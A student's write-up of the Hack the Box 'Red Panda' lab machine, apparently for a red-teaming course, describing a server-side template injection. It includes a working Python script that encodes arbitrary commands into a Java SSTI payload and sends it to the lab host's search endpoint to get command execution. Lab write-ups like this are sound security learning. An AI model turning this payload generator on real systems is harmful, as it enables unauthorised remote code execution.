 ```yaml
---
layout: single
title: Hack the Box - Red Panda
---
```


## SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda

| ![Redpanda main page](../../assets/img/redpanda/redpanda.png) |
| Redpanda main page |

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

| ![Greg panda](../../assets/img/redpanda/greg.png) |
| Greg panda |

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.

| ![Server's environment variables](../../assets/img/redpanda/get_env.png) |
| Server's environment variables |

I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests
from bs4 import BeautifulSoup as bs

# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"
mid = ""
command = sys.argv[1]
for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"
payload = first + mid + last

# send post request to /search
ip = "10.10.11.170"
endpoint = "search"
res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )
soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})
print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

| ![User flag](../../assets/img/redpanda/user.png) |
| User flag |

